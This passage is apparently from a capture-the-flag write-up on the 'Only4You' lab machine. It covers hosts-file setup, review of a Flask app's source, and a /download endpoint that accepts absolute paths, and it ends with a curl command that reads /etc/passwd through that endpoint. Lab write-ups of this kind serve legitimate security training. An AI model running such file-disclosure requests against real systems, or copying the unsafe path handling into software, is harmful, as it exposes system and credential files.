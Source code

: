 ## Web

When making a simple HTTP GET request to the target on port 80, we were redirected to [only4you.htb](http://only4you.htb). To simplify requests, we added it to our `/etc/hosts`{:.filepath} file.

```zsh
# Add hostname to /etc/hosts
echo "$rhost\tonly4you.htb" | sudo tee -a /etc/hosts
```
{:file="bryan@red_team" .nolineno}

This allowed us to access the intended site at [http://only4you.htb](http://only4you.htb).

![Web index](web-index.png)

On the site, we found information about four employees and spotted a link to [beta.only4you.htb](http://beta.only4you.htb) in the FAQ section.

![FAQ Beta Link](web-faq-link.png)

To access this beta site easily, we added the virtual hostname to our `/etc/hosts`{:.filepath} file.

```zsh
# Add beta site to /etc/hosts
[ -z "$rhost" ] || sudo sed -Ei "s/($rhost\\s+.*)/\\1 beta.only4you.htb/" /etc/hosts
```
{:file="bryan@red_team" .nolineno}

### Beta Site

We proceeded to explore the [http://beta.only4you.htb](http://beta.only4you.htb) site. It advertised the site source code which we downloaded for further review.

![Beta site index](web-beta-index.png)

#### Arbitrary File Disclosure

After extracting the source code from the downloaded archive, we focused on the `app.py`{:.filepath} file. This file contained endpoints for a Flask application, including **/resize**, **/convert**, and **/download**. While these endpoints had some filesystem access protection, the **/download** endpoint seemed to allow reading from absolute paths.

```python
@app.route('/download', methods=['POST'])
def download():
  image = request.form['image']
  filename = posixpath.normpath(image) 
  # ...
  return send_file(filename, as_attachment=True)
```
{:file="app.py" .nolineno}

We verified this vulnerability by reading `/etc/passwd`{:.filepath}.
```zsh
# Exploit the vulnerability to read /etc/passwd
curl "http://beta.only4you.htb/download" -d "image=/etc/passwd"
```
{:file="bryan@red_team" .nolineno}
